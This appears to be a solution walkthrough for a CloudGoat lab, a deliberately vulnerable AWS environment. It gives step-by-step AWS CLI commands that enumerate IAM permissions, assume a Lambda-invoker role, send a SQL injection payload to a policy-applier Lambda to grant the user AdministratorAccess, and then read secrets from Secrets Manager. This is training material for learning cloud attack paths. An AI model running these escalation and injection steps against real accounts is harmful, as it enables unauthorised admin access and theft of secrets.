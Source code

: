 1. Get permissions for the 'bilbo' user.

    ```bash
    # This command will give you the ARN & full name of you user.
    aws --profile bilbo --region us-east-1 sts get-caller-identity

    # This command will list the policies attached to your user.
    aws --profile bilbo --region us-east-1 iam list-user-policies --user-name [your_user_name]

    # This command will list all of your permissions.
    aws --profile bilbo --region us-east-1 iam get-user-policy --user-name [your_user_name] --policy-name [your_policy_name]
    ```

2. List all roles, assume a role for privesc.

    ```bash
    # This command will list all the roles in your account, one of which should be assumable. 
    aws --profile bilbo --region us-east-1 iam list-roles | grep cg-

    # This command will list all policies for the target role
    aws --profile bilbo --region us-east-1 iam list-role-policies --role-name [cg-target-role]

    # This command will get you credentials for the cloudgoat role that can invoke lambdas.
    aws --profile bilbo --region us-east-1 sts assume-role --role-arn [cg-lambda-invoker_arn] --role-session-name [whatever_you_want_here]
    ```

3. List lambdas to identify the target (vulnerable) lambda.

    ```bash
    # This command will show you all lambda functions. The function belonging to cloudgoat (the name should start with "cg-")
    # can apply a predefined set of aws managed policies to users (in reality it can only modify the bilbo user).
    aws --profile assumed_role --region us-east-1 lambda list-functions
    ```

4. Look at the lambda source code. You should see the database structure in a comment, 
as well as the code that is handling input parameters. It's vulnerable to an injection, and 
we'll see what an exploit looks like in the next step.

    ```bash
    # This command will return a bunch of information about the lambda that can apply policies to bilbo.
    # part of this information is a link to a url that will download the deployment package, which
    # contains the source code for the function. Read over that source code to discover a vulnerability. 
    aws --profile assumed_role --region us-east-1 lambda get-function --function-name [policy_applier_lambda_name]
    ```

5. Invoke the role applier lambda function, passing the name of the bilbo user and the injection payload. 

    ```bash
    # Create the following SQL injection payload in a local JSON file, called 'payload.json'.
    # Replace [bilbo_user_name_here] with the bilbo username.
    {
            "policy_names": ["AdministratorAccess' -- "],
            "user_name": "[bilbo_user_name_here]"
    }

    # The following command will send a SQL injection payload to the lambda function
    aws --profile assumed_role --region us-east-1 lambda invoke --function-name [policy_applier_lambda_name] --cli-binary-format raw-in-base64-out --payload file://./payload.json out.txt

    # cat the results to confirm everything is working properly
    cat out.txt
    ```

6. Now that Bilbo is an admin, use credentials for that user to list secrets from secretsmanager. 

    ```bash
    # This command will list all the secrets in secretsmanager
    aws --profile bilbo --region us-east-1 secretsmanager list-secrets

    # This command will get the value for a specific secret
    aws --profile bilbo --region us-east-1 secretsmanager get-secret-value --secret-id [ARN_OF_TARGET_SECRET]
    ```
